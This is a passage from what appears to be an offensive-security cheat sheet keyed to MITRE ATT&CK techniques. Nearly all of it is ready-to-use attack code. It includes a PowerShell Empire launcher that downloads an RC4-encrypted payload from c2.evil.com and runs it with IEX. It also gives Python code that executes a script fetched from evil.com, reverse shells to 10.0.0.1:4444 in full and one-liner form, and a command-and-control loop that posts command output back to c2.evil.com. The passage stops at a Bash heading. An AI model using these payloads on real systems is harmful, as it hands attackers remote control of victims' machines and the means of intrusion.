 #### PowerShell Empire / Covenant Agents
```powershell
# Empire agent launcher
$wc=New-Object System.Net.WebClient;
$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;
$K=[System.Text.Encoding]::ASCII.GetBytes('secretkey');
$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]+$S[$H])%256]}};
$ser='http://c2.evil.com:80';
$t='/admin/get.php';
$wc.Headers.Add("User-Agent","Mozilla/5.0");
$data=$wc.DownloadData($ser+$t);
$iv=$data[0..3];
$data=$data[4..$data.length];
-join[Char[]](& $R $data ($IV+$K))|IEX
```

### 1.2 Python (T1059.006)

```python
# Remote code execution
import urllib.request
exec(urllib.request.urlopen('http://evil.com/payload.py').read())

# Socket-based reverse shell
import socket, subprocess, os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.0.0.1", 4444))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])

# One-liner reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# HTTP-based command execution
import requests
while True:
    cmd = requests.get('http://c2.evil.com/cmd').text
    if cmd:
        output = subprocess.check_output(cmd, shell=True)
        requests.post('http://c2.evil.com/result', data=output)
```

### 1.3 Bash/Shell (T1059.004)
